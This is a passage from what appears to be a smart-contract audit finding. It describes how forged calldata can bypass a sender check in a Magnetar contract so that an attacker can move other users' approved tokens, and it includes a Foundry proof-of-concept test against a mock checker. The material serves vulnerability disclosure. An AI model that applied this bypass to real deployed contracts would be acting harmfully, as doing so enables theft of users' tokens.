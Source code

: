 ```solidity
            return;
        }
```

### POC

This will allow us to transfer any token that is approved to us, stealing them. We can proceed to mine an address with low enough zeros, or simply use a suitable system address for any chain, as the requirement for `_checkSender(abi.decode(_actionCalldata[4:36], (address)))` is simply to match the `msg.sender`.

An example would be the Optimism Portal on L2 which would have very low address; meaning we would be able to have a sufficient amount of operations there. Once we can bypass the check, we will be able to have Magnetar `execute` any market operation, such as transfers of other people tokens, allowing us to steal them.

### Coded POC

The Coded POC shows how we can forge calldata to bypass the check, as long as we can use an address that matches the abi.decoding of the length:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.22;

import {Test} from "forge-std/Test.sol";
import {console2} from "forge-std/console2.sol";

contract MockCallerChecker {

  function doTheCheck(bytes calldata _actionCalldata) external {
    console2.log("Calldata Length", _actionCalldata.length);
    _checkSender(abi.decode(_actionCalldata[4:36], (address)));
  }

  function _checkSender(address entry) internal {
    console2.log("msg.sender", msg.sender);
    console2.log("entry", entry);
    require(msg.sender == entry);
  }
}


contract BasicTest is Test {
    // 4 bytes is funsig 0xaaaaaaaa
    // 32 bytes are the address (since abi.encoding uses a full word)
    // 0000000000000000000000000000000000000000111111111111111111111111
    bytes data = hex"aaaaaaaa0000000000000000000000000000000000000000111111111111111111111111";

    function testDemo() public {
      MockCallerChecker checker = new MockCallerChecker();
      console2.log(data.length);

      // Same address as the length
      vm.prank(address(0x111111111111111111111111));
      checker.doTheCheck(data);

      // For a real exploit, all we have to do is find the cheapest between available addresses and one we can mine
    }
}
```
